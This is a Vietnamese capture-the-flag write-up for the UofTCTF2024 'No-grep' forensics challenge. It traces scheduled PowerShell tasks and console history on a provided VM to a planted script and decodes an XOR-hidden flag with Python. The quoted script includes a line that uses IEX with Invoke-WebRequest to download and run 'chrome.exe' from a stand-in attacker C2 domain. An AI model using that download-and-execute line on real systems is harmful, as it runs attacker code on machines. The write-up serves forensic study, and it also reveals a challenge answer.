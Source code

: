 # UofTCTF2024_No-grep

> Use the VM from `Hourglass` to find the 2nd flag on the system !

- Tiếp tục sử dụng máy ảo được cung cấp trong challenge `UofTCTF2024_Hourglass` ta thấy có hai entry trong `Task Scheduler` thực thi câu lệnh qua powershell.

- Hai entry này tương ứng với Server và Client và đều thực thi chung 1 file.ps1 chỉ khác là sử dụng đối số tương ứng với hai Scenario khác nhau.

```ps1
C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Unrestricted -NonInteractive -NoProfile -WindowStyle Hidden "& %windir%\system32\WindowsPowerShell\v1.0\Modules\SmbShare\DisableUnusedSmb1.ps1 -Scenario Client"

C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Unrestricted -NonInteractive -NoProfile -WindowStyle Hidden "& %windir%\system32\WindowsPowerShell\v1.0\Modules\SmbShare\DisableUnusedSmb1.ps1 -Scenario Server"
```

- Nội dung file `%windir%\system32\WindowsPowerShell\v1.0\Modules\SmbShare\DisableUnusedSmb1.ps1`:

```
# Copyright (c) 2017 Microsoft Corporation. All rights reserved.
#
# This script is used to automatically removes support for the legacy SMB 1.0/CIFS protocol when such support isn�t actively needed during normal system usage..
Param
(
    [Parameter(Mandatory=$True)]
    [ValidateSet("Client", "Server")]
    [string]
    $Scenario
)

#
# ------------------
# FUNCTIONS - START
# ------------------
#
Function UninstallSmb1 ($FeatureNames)
{
  try
    {
       Remove-SMBComponent -Name $FeatureNames
    }
    catch {}
}

#
# ------------------
# FUNCTIONS - END
# ------------------
#

#
# ------------------------
# SCRIPT MAIN BODY - START
# ------------------------
#

$ScenarioData = @{
    "Client" = @{
        "FeatureName" = "SMB1Protocol-Client";
        "ServiceName" = "LanmanWorkstation"
    };
    "Server" = @{
        "FeatureName" = "SMB1Protocol-Server";
        "ServiceName" = "LanmanServer"
    }
}

$FeaturesToRemove = @()

foreach ($key in $ScenarioData.Keys)
{
    $FeatureName = $ScenarioData[$key].FeatureName
    $ServiceName = $ScenarioData[$key].ServiceName

    $ScenarioData[$key].FeatureState = (Get-WindowsOptionalFeature -Online -FeatureName $FeatureName).State
    $ScenarioData[$key].ServiceParameters = Get-ItemProperty "HKLM:\System\CurrentControlSet\Services\${ServiceName}\Parameters"
}

$FeaturesToRemove += $ScenarioData[$Scenario].FeatureName
$ScenarioData[$Scenario].FeatureState = "Disabled"

$RemoveDeprecationTasks = $true

foreach ($key in $ScenarioData.Keys)
{
    if($ScenarioData[$key].FeatureState -ne "Disabled" -and
       $ScenarioData[$key].ServiceParameters.AuditSmb1Access -ne 0) {

        $RemoveDeprecationTasks = $false
    }
}

if ($RemoveDeprecationTasks) {
    $FeaturesToRemove += "SMB1Protocol-Deprecation"

    $RemoveToplevelFeature = $true

    foreach ($key in $ScenarioData.Keys)
    {
        if($ScenarioData[$key].FeatureState -ne "Disabled") {
            $RemoveToplevelFeature = $false
        }
    }

    if ($RemoveToplevelFeature) {
        $FeaturesToRemove += "SMB1Protocol"
    }
}

UninstallSmb1 -FeatureName $FeaturesToRemove

$NewFeatureState = (Get-WindowsOptionalFeature -Online -FeatureName $ScenarioData[$Scenario].FeatureName).State

if ($NewFeatureState -ne "Enabled")
{
    $ServiceName = $ScenarioData[$Scenario].ServiceName
    $RegistryPath = "HKLM:\System\CurrentControlSet\Services\${ServiceName}\Parameters"
    New-ItemProperty -Path $RegistryPath -Name AuditSmb1Access -Value 0 -PropertyType DWORD -Force | Out-Null
}
```

- Script trên chủ yếu thực thi nhằm vô hiệu hóa SMB 1.0 vì lý do bảo mật, do SMB 1.0 được coi là một giao thức cổ điển với các lỗ hổng bảo mật đã biết nhưng đến đây thì lại không có hướng đi nào tiếp.

- Mình thử check lại history của tất cả các user khi sử dụng powershell để tìm kiếm gì đó thì phát hiện có một file ps1 lạ cũng được sử dụng.

```ps1
get-content C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

- Trong lịch sử của powershell có 1 lệnh khả nghi `Set-Alias -Name UpdateSystem -Value "C:\Windows\Web\Wallpaper\Theme2\update.ps1"` và khi tìm file `update.ps1` thì thấy có nội dung file như sau:

```ps1

$String_Key = 'W0wMadeitthisfar'

$NewValue = '$(' + (([int[]][char[]]$String | ForEach-Object { "[char]$($_)" }) -join '+') + ')'

$chars = 34, 95, 17, 57, 2, 16, 3, 18, 68, 16, 12, 54, 4, 82, 24, 45, 35, 0, 40, 63, 20, 10, 58, 25, 3, 65, 0, 20

$keyAscii = $String_Key.ToCharArray() | ForEach-Object { [int][char]$_ }

$resultArray = $chars -bxor $keyAscii

IEX (Invoke-WebRequest -Uri 'https://somec2attackerdomain.com/chrome.exe' -UseBasicParsing).Content

```

- Nội dung của script tập trung vào việc XOR `$keyAscii` (định dạng CharArray được convert từ `$String_Key`) với `$chars`, vì vậy mình viết script python đơn giản để thực hiện việc này.

```python
x="34 95 17 57 2 16 3 18 68 16 12 54 4 82 24 45 35 0 40 63 20 10 58 25 3 65 0 20".split(' ')
y="87 48 119 77 97 100 101 105 116 116 104 105 115 102 97 114".split(' ')

flag=""
c=0
for n in range(len(x)):
    if c > len(y)-1:
        c=0
    flag+=chr(int(x[n])^int(y[c]))
    c+=1
print(flag)
```

- Ta thu được flag `uoftctf{0dd_w4y_t0_run_pw5h}`.
